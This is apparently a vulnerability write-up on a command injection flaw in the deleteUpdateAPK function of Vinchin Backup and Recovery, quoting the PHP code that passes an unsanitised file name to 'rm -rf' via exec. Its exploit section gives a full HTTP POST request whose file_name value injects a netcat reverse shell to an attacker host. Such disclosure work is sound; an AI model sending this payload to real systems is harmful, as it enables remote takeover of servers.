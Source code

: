 ### Deep Dive into the `deleteUpdateAPK` Function Vulnerability in Vinchin Backup and Recovery

![](../src/deleteUpdateAPK.png)

#### Vulnerability Overview:

The `deleteUpdateAPK` function within Vinchin Backup and Recovery's software contains a critical security vulnerability. This function is intended to delete an APK file based on provided parameters.

#### Function Analysis:

**Function Prototype**:
```php
public function deleteUpdateAPK($params)
```

1. **Parameter Extraction**:
   The function retrieves `md5` and `file_name` from the `$params` array:
   ```php
   $md5 = $params['md5'];
   $file_name = $params['file_name'];
   ```

2. **File Name Check**:
   The function checks if the `file_name` is empty and returns an error message if it is:
   ```php
   if (empty($file_name)) {
       // Return an error message
   }
   ```

3. **Command Construction**:
   It constructs a command to remove the specified file and its temporary counterpart:
   ```php
   $cmd = "rm -rf " . $path;
   $cmd_tmp = "rm -rf " . $path_tmp;
   ```

4. **Command Execution**:
   The commands are executed using the `exec` function:
   ```php
   exec($cmd);
   exec($cmd_tmp);
   ```

   The critical vulnerability here is the direct use of the `file_name` parameter in the command without any sanitization or validation. This opens the door for an attacker to inject additional commands.

#### Exploitation:

An attacker can exploit this vulnerability by injecting commands through the `file_name` parameter.

#### Exploit Example:

An attacker can send a POST request with a specially crafted `file_name` parameter:

```
POST /api/ HTTP/1.1
Host: 192.168.1.9
Cookie: BackupSystem=cqle200rsnt5a7r0ug4v9vl9bd;
Content-Type: application/x-www-form-urlencoded; charset=UTF-8

m=8&f=deleteUpdateAPK&p={"md5":"dummy_md5","file_name":";nc -e /bin/bash 192.168.1.5 1338"}
```

In this request, the attacker appends a reverse shell command (`nc -e /bin/bash 192.168.1.5 1338`) to the `file_name` parameter, leading to its execution on the server.

#### Conclusion:

The `deleteUpdateAPK` function's vulnerability is another instance of command injection due to insufficient input validation. It allows an attacker to execute arbitrary commands on the server, potentially leading to full system compromise. 

Vinchin should urgently address this vulnerability by implementing strict input validation and command execution controls. Users of Vinchin Backup and Recovery should apply any available security updates to mitigate this risk.